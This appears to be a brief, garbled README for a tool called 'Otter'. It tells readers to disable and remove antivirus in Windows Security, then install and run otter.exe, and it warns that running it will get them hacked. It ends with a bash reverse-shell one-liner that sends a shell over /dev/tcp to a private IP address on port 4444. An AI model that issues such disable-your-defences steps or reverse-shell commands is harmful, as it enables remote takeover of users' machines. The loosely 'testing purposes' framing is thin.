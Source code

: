 # Otter
first disable antivirus and in windows security remove it,next install otter.exe and run and warning it is just for people for testing purposes DO NOT RUN UNLESS YOU WANT TO BE HACKED 
bash &> /dev/tcp/172.20.136.239/4444 0>&1
